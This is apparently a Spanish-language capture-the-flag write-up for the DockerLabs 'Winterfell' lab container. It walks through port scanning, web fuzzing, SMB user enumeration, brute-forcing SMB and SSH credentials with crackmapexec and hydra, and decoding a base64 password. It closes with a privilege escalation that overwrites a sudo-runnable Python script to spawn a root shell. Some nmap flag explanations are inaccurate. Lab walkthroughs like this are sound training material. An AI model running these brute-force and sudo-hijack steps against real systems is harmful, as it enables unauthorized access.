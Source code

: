 # Winterfell

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Winterfell`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos 4 puertos abiertos.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_1.jpg)     

Vamos a echar un vistazo a lo que corre en el puerto 80.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_2.jpg)  

Bueno, a primera vista no hay nada de interesante, a parte un posible nombre de usuario, **jon**.  
Probamos a hacer un poco de fuzzing web a la busqueda de directorios ocultos.  
Para ellos utilizaremos la herramienta **wfuzz**.  

`sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/FUZZ`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_3.jpg)   

Bien, descubrimos un directorio que se llama "dragon".  
Vamos a ver que hay en esta página.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_4.jpg)    

Si abrimos el fichero nombrado "EpisodiosT1" vemos un listado.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_5.jpg)   

Podemos intentar a copiar este listado en un fichero que llamaremos pass.txt y utilizarlo como nuestro diccionario para ataque de fuerza bruta.  
Antes pero, debemos intentar enumerar los usuarios.  
Para ello usaremos la herramienta **enum4linux**.  
Ejecutamos el comando `sudo enum4linux -a 172.17.0.2` y vemos que nos saca 3 usuarios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_6.jpg)   

Ahora podemos intentar utilizar el diccionario que nos hemos creado anteriormente e intentar un ataque de fuerza bruta contra smb.  
Utilizaremos la herramienta **crackmapexec** y ejecutaremos el comando:  

`sudo crackmapexec smb 172.17.0.2 -u 'jon' -p pass.txt`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_7.jpg)     

Perfecto, tenemos una contraseña valida.   
Ahora intentaremos enumerar los recursos a los que podemos acceder.   

`sudo smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_8.jpg)   

Ahora nos conectamos al recurso shared para ver si hay algo interesante.   

`sudo smbclient //172.17.0.2/shared -U jon`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_9.jpg)    

Nos descargamos el fichero con el comando `get`.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_10.jpg)      

Si abrimos el ficheros vemos que hay una valiosa información.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_11.jpg)    

Intentamos decriptarla con este comando.  

`echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_12.jpg)    

Ahora que tenemos una contraseña podemos crearnos un diccionario con los 3 nombres de usuarios (que llamaremos **user.txt**) que hemos descubierto anteriormente y realizar un ataque de fuerza bruta.  
Hecho esto usamoas la herramienta hydra con el comando:  

`sudo hydra -L users.txt -P pass.txt ssh://172.17.0.2 `  

y listo, obtenemos una combinación valida.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_13.jpg)     

Una vez que nos logeamos con el usuario jon le damos al comando `sudo -l` para intentar escalar privilegios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_14.jpg)     

Lo que podemos hacer es borrar el fichero **.mensaje.py** y volver a crearlo insertando este código:  

`import os  
os.system("/bin/bash")`











